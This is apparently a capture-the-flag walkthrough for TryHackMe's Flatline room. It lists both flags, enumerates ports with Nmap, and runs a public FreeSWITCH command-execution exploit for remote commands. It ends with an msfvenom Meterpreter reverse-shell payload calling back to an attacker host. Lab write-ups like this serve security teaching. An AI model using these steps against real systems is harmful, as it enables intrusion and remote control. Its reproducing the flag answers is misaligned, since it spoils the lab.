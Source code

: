<div align="center">[Flatline TryHackMe Walkthrough — Complete Step-by-Step Guide to Root](https://tryhackme.com/room/flatline)</div>


## Task 1 . Flags

### 1.1. What is the user.txt flag?
```
THM{64bca0843d535fa733eecdc59d27cbe26}
```
### 1.2. What is the user.txt flag?
```
THM{8c8bc5558f0f3f8060d00ca231a9fb5e}
```

## Initial Enumeration

As always, I kicked things off with an **Nmap scan** to enumerate the open services running on the target machine (`10.201.79.236`). I used the following command:

```bash
nmap -sV -sC -Pn 10.201.79.236
```

* `-sV` → Detects service versions
* `-sC` → Runs default Nmap scripts for additional info
* `-Pn` → Skips host discovery (treats host as online)

The scan revealed two interesting open ports:

```
3389/tcp open  ms-wbt-server    Microsoft Terminal Services
8021/tcp open  freeswitch-event FreeSWITCH mod_event_socket
```

* Port **3389 (RDP)** indicated that the machine was running Microsoft’s Remote Desktop Service.
* Port **8021 (FreeSWITCH mod\_event\_socket)** caught my attention, since FreeSWITCH is a VoIP service that has been known to contain vulnerabilities.

The domain name of the system was also disclosed as:

```
WIN-EOM4PK0578N
```

At this point, my main focus shifted toward the **FreeSWITCH service** to check if it was exploitable.

---

## Finding Vulnerabilities

I searched Exploit-DB using `searchsploit` to see if there were any publicly available exploits for FreeSWITCH:

```bash
searchsploit FreeSWITCH
```

The results looked promising:

```
-$ searchsploit Freeswitch
--------------------------------------------------------- ---------------------------
 Exploit Title                                           |  Path
--------------------------------------------------------- ---------------------------
FreeSWITCH - Event Socket Command Execution (Metasploit) | multiple/remote/47698.rb
FreeSWITCH 1.10.1 - Command Execution                    | windows/remote/47799.txt
--------------------------------------------------------- ---------------------------
```

The second one looked like a straightforward **remote code execution (RCE)** exploit, so I pulled the exploit file for review:

```bash
searchsploit -m windows/remote/47799.txt
cat 47799.txt
```

Inside, I found an example usage that confirmed command execution was possible via the FreeSWITCH event socket.

---

## Exploitation

I decided to test the exploit directly by executing a simple `whoami` command against the target:

```bash
python3 47799.txt 10.201.79.236 whoami
```

The exploit worked!

```
Authenticated
win-eom4pk0578n\nekrotic
```

That confirmed I had remote command execution on the machine as the **Nekrotic** user.

---

## Exploring the File System

With code execution in place, I explored the `C:\` drive to see the file structure:

```bash
python3 47799.txt 10.201.79.236 "dir C:\"
```

Output:

```
PerfLogs
Program Files
Program Files (x86)
projects
Users
Windows
```

Inside the **Users** directory, I found two accounts:

* Administrator
* Nekrotic

Naturally, I went straight for `Nekrotic\Desktop` to check for any flags.

```bash
python3 47799.txt 10.201.79.236 "dir C:\Users\Nekrotic\Desktop"
```

And there they were:

```
user.txt
root.txt
```

---

## Hurdles with Flag Extraction

I attempted to read the `user.txt` flag using multiple variations of the `type` and `cat` commands:

```bash
python3 47799.txt 10.201.79.236 "type C:\Users\Nekrotic\Desktop\user.txt"
python3 47799.txt 10.201.79.236 "cat C:\Users\Nekrotic\Desktop\user.txt"
python3 47799.txt 10.201.79.236 "powershell cat C:\Users\Nekrotic\Desktop\user.txt"
```

Unfortunately, the responses either hung or returned errors. It seemed this exploit had limitations when it came to reading file contents directly.

---

## Reverse Shell

Since direct flag extraction wasn’t working, I shifted my approach to gaining a more **stable reverse shell**. I generated a payload with `msfvenom`:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.8.29.222 LPORT=8888 -f exe > shell.exe
```

This would give me a proper Meterpreter session once executed, making file interaction much easier.

<img width="1116" height="134" alt="image" src="https://github.com/user-attachments/assets/2638a694-7862-469f-a01d-d4a09ed97992" />
